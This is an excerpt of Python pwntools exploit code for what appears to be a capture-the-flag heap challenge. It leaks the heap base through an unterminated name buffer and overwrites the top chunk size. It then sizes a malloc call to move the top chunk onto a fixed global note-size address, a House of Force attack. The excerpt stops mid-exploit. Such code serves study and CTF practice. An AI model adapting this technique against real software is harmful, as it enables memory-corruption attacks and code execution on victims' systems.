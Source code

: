 ```python
    offset += 4  # flags

    offset += word_bytes * 10  # offset fastbin

    offset += word_bytes * 2  # top,last_remainder

    offset += idx * 2 * word_bytes  # idx

    offset -= word_bytes * 2  # bin overlap

    return offset





def exp():

    # leak heap base

    p.sendafter('Input your name:\n', 'a' * 64)

    p.recvuntil('Hey ' + 'a' * 64)

    # sub name's chunk' s header

    heap_base = u32(p.recv(4)) - 8

    log.success('heap_base: ' + hex(heap_base))

    p.sendafter('Org:\n', 'a' * 64)

    p.sendlineafter('Host:\n', p32(0xffffffff))

    # name,org,host, for each is (0x40+8)

    topchunk_addr = heap_base + (0x40 + 8) * 3



    # make topchunk point to 0x0804B0A0-8

    p.sendlineafter('option--->>', '1')

    notesize_addr = 0x0804B0A0

    notelist_addr = 0x0804B120

    targetaddr = notesize_addr - 8

    offset_target_top = targetaddr - topchunk_addr

    # 4 for size_t, 7 for malloc_allign

    malloc_size = offset_target_top - 4 - 7

    # plus 4 because malloc(v2 + 4);

    p.sendlineafter('Input the length of the note content:\n',

                    str(malloc_size - 4))

    # most likely malloc_size-4<0...
```